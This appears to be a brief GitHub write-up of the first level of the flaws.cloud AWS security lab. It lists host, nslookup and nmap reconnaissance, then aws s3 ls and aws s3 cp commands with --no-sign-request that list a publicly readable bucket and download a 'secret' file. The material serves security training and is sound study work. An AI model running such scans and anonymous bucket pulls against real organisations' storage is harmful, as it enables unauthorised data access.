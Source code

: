 # Bucket Listing Access Permission Set to Everyone

<b>Target: flaws.cloud</b>
```
history | sed 's/^[[:space:]]*[0-9]*//'
```

<p>host flaws.cloud</p>
![image](https://github.com/Krishna-Gopal-Pathak/CyberSecurity/assets/142927819/886eb38f-51a7-45fa-82c5-8192ed860e96)

<p>nslookup flaws.cloud</p>
![image](https://github.com/Krishna-Gopal-Pathak/CyberSecurity/assets/142927819/4aba7dec-f57f-4167-8f21-9aecc8860781)

<p>nmap flaws.cloud</p>
![image](https://github.com/Krishna-Gopal-Pathak/CyberSecurity/assets/142927819/91ebe710-8002-4998-ab5c-2a134d0a2421)

aws s3 ls flaws.cloud
aws s3 ls s3://flaws.cloud
aws s3 ls s3://flaws.cloud --region us-west-2
aws s3 ls s3://flaws.cloud --region us-west-2 --no-sign-request
![image](https://github.com/Krishna-Gopal-Pathak/CyberSecurity/assets/142927819/06329809-f33a-4f4e-b0be-fd2f8035d7f6)

aws s3 cp s3://flaws.cloud/secret-dd02c7c.html --region us-west-2 --no-sign-request .
aws s3 cp s3://flaws.cloud/secret-dd02c7c.html --region us-west-2 --no-sign-request abc.html
![image](https://github.com/Krishna-Gopal-Pathak/CyberSecurity/assets/142927819/ea776817-a549-40bf-a776-0fcb5438c20a)


